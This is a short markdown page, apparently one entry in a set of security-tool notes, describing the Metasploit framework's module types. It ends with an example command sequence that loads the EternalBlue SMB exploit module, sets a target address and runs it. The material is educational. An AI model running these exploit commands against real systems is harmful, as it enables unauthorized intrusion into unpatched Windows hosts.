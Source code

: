 
---

### 49. **Tools_and_Techniques/Metasploit.md**

```markdown
# Metasploit

## Overview
Metasploit is a widely-used framework for developing and executing exploits against vulnerabilities.

## Key Components
- **Exploit Modules** - Code that exploits vulnerabilities.
- **Payloads** - Code that runs on the target system after exploitation.
- **Auxiliary Modules** - Tools for scanning, fuzzing, and more.

## Example
Running an exploit with Metasploit:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit

